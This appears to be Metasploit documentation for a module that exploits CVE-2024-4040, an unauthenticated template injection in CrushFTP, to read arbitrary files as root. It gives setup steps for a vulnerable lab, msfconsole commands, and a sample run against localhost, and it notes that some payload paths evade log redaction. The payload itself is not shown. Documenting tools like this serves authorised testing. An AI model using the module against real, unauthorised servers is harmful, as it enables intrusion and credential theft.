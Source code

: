 ## Vulnerable Application
This module leverages an unauthenticated server-side template injection vulnerability in CrushFTP < 10.7.1 and
< 11.1.0 (as well as legacy 9.x versions). Attackers can submit template injection payloads to the web API without
authentication. When attacker payloads are reflected in the server's responses, the payloads are evaluated. The
primary impact of the injection is arbitrary file read as root, which can result in authentication bypass, remote
code execution, and NetNTLMv2 theft (when the host OS is Windows and SMB egress traffic is permitted).
More information can be found in the [Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/20oYjlmfXa/cve-2024-4040/rapid7-analysis).

## Options
To successfully read back the contents of an arbitrary file, the `TARGETFILE` parameter should be set to the desired
file name. By default, a small CrushFTP XML file, `users/MainUsers/groups.XML`, is the `TARGETFILE` value. Relative 
or full system paths can be provided for Windows, Linux, Mac targets, and UNC paths can be provided for Windows
targets. Though file paths for Windows targets can contain `:` characters, like `C:\Windows\win.ini`, this will result
in payloads not being fully redacted from CrushFTP logs.

## Testing
To set up a test environment:
1. Download an affected version of CrushFTP [here](https://github.com/the-emmons/CVE-2023-43177/releases/download/crushftp_software/CrushFTP10.zip).
2. Configure `CRUSH_DIR` in `crushftp_init.sh` to point to the correct install directory.
3. Execute `java -jar CrushFTP.jar` to show a local client GUI interface that can be used to set up an admin account.
4. Execute `sudo crushftp_init.sh start` to launch the software on Linux or Mac. If on Windows, run `CrushFTP.exe` as an administrator.
5. Follow the verification steps below.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/crushftp_fileread_cve_2024_4040`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set TARGETFILE <TARGET_FILE_TO_READ>`
6. `set STORE_LOOT false` if you want to display file on the console instead of storing it as loot.
7. `run`

## Scenarios
### CrushFTP on Windows, Linux, or Mac
```
msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > show options 

Module options (auxiliary/gather/crushftp_fileread_cve_2024_4040):

   Name        Current Setting             Required  Description
   ----        ---------------             --------  -----------
   Proxies                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      0.0.0.0                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       443                         yes       The target port (TCP)
   SSL         false                       no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT  true                        no        Store the target file as loot
   TARGETFILE  users/MainUsers/groups.XML  yes       The target file to read. This can be a full path, a relative path, or a network share path (if firewalls permit)
   VHOST                                   no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > set STORE_LOOT false
STORE_LOOT => false
msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > check
[+] 127.0.0.1:8080 - The target is vulnerable. Server-side template injection successful!
msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Server-side template injection successful!
[*] Fetching anonymous session cookie...
[*] Using template injection to read file: users/MainUsers/groups.XML
[+] File read succeeded! 
 <?xml version="1.0" encoding="UTF-8"?>
<groups type="properties"></groups>



[*] Auxiliary module execution completed
```

